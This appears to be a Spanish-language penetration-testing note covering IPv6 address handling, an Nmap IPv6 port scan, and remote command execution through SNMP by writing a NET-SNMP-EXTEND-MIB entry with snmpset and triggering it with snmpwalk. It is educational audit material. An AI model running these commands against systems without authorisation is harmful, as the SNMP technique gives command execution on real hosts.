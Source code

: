 Una vez obtenida una IPv6 (**de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:b9:97:ef**) podríamos retocar esta de manera correcta: 

## dead:beef:0000:0000:0250:56ff:feb9:97ef

Y una vez tengamos el formato correcto de la IPv6 es importante tener en cuenta que los '0' se pueden eliminar:

## dead:beef::250:56ff:feb9:97ef

Una vez tengamos la IPv6 podríamos hacer uso de herramientas como **ping6** para ver si existe traza con dicha IP. 

```bash
ping6 -c 1 dead:beef::250:56ff:feb9:97ef
```

De esta manera podríamos realizar un escaneo con [[Nmap]] por IPv6 y ver si los puertos son distintos. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -6 dead:beef::250:56ff:feb9:97ef -oG allPortsv6
```

#### Para acceder a recursos hosteados desde el navegador desde ipv6, deberíamos hacer uso de los corchetes: \[ dead:beef::250:56ff:feb9:97ef \] 

----

# [[RCE - (Remote Command Execution)]] vía SNMP 

Como sabemos, de cara a una auditoría lo que siempre buscamos es un escenario en el cual contemos con [[RCE - (Remote Command Execution)]], en este caso existen potenciables maneras de lograr esta abusando de SNMP. 

## Inyectar un comando malicioso. 

Podríamos intentar inyectar un comando de la siguiente manera: 

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c {community_string} {target_ip} \
    'nsExtendStatus."evilcommand"'  = createAndGo \
    'nsExtendCommand."evilcommand"' = /bin/echo \
    'nsExtendArgs."evilcommand"'    = 'hello world'
```

En caso de que logremos inyectar el comando de manera exitosa, podríamos ver la ejecución de este:

```bash
snmpwalk -v2c -c {community_string} {target_ip} NET-SNMP-EXTEND-MIB::nsExtendObjects
```